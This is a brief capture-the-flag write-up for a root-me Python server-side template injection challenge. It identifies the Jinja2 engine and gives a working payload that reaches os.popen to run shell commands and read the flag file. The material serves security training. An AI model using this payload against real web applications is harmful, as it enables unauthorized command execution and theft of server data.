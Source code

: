 # Python: Server-side Template Injection Introduction

[root-me challenge: Python - Server-side Template Injection Introduction](https://www.root-me.org/fr/Challenges/Web-Serveur/Python-Server-side-Template-Injection-Introduction): This service allows you to generate a web page. Use it to read the flag!

----

`${ ... }` didn't work, but `{{ ... }}` did. Further fiddling. Apparently Jinja2.

Use `{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}` to `cat .passwd`.

## Resources

* [SSTI techniques (these writeups)](../ssti/README.md)
* [PayloadAllTheThings: Exploit the SSTI by calling os.popen().read()](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread)

